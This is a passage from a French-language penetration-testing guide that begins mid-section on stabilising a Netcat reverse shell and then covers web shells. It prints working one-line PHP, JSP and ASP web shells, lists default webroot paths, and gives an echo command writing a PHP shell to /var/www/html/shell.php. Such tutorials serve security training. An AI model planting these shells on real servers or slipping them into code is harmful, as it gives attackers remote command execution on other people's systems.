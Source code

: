          ```bash
         stty size
         ```
     * `echo $TERM` renvoie le type de terminal (par exemple, `xterm-256color`).
     * `stty size` renvoie le nombre de lignes et de colonnes (par exemple, `67 318`).
   *   Ensuite, nous retournons à notre shell Netcat et exécutons les commandes suivantes pour ajuster les variables :

       ```bash
       export TERM=xterm-256color
       ```

       ```bash
       stty rows 67 columns 318
       ```
{% endhint %}

***

### <mark style="color:blue;">Web Shell</mark>

**Le Web Shell** utilise un script web pour exécuter des commandes via des requêtes HTTP.

#### <mark style="color:green;">**Écriture d'un Web Shell :**</mark>

*   **PHP :**

    ```php
    <?php system($_REQUEST["cmd"]); ?>
    ```
*   **JSP :**

    ```jsp
    <% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
    ```
*   **ASP :**

    ```asp
    <% eval request("cmd") %>
    ```

#### <mark style="color:green;">**Upload du Web Shell :**</mark>

1. **Déterminer le répertoire web (webroot) :**
   * **Apache** : `/var/www/html/`
   * **Nginx** : `/usr/local/nginx/html/`
   * **IIS** : `c:\inetpub\wwwroot\`
   * **XAMPP** : `C:\xampp\htdocs\`
2.  **Écrire le Web Shell dans le webroot :**

    ```bash
    echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
    ```
